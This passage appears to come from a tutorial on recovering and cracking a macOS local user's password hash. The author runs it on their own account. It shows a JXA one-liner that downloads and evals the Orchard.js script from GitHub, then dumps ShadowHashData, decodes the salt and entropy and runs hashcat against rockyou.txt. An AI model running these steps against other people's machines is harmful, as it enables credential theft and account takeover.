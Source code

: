 this contains the hashing algorithm (like PBKDF2), the number of iterations, the salt, and **entropy** (i.e. the actual hashed password.)

you can attempt to crack this using `hashcat`, with the form `$ml$[iterations]$[salt]$[entropy]`, but this will be painfully slow.

instead, we can use [Orchard](https://github.com/its-a-feature/Orchard/blob/master/Orchard.js) to leverage JXA (JavaScript for Automation) to do some enumeration.

set up a scripting environment:

```bash
$ osascript -l JavaScript -i
```

then enter the following command:

```js
>> eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('https://raw.githubusercontent.com/its-a-feature/Orchard/master/Orchard.js')),$.NSUTF8StringEncoding)));
```

you can now call functions inside this environment. for example, i want to get my local user data.

```js
Get_LocalUser({user:"bilal"})
```

![alt text](/shadow.png)

the output here is massive. i'm interested in `dsAttrTypeNative:ShadowHashData`, which manifests as a base64 blob. it's easier to save the output to a file, then `grep` it.

```js
Get_LocalUser({user:"bilal"}) > user_data.json
```

```bash
grep -A1 "dsAttrTypeNative:ShadowHashData" user_data.json
```

once you collect the base64 blob above, feed it into the command below and decode it.

```bash
echo <blob> | base64 -D > shadowhash.bplist
```

convert the `plist` to XML. 

```bash
plutil -convert xml1 shadowhash.bplist
```

we'll need the salt (`SALTED-SHA512-PBKDF2`) and entropy sections, and in hex, so let's convert them.

```bash
echo <salt> | base64 -D > salt

xxd -p salt | tr -d '\n'
```

now that we have all the parts, create a hash file for cracking. remember the format: `$ml$iterations$salt$entropy`.

the hashcat command to crack the password is simple, and all you need is a reliable password list (`rockyou.txt`).

```bash
hashcat -m 7100 <hash-file> ~/tools/rockyou.txt
```

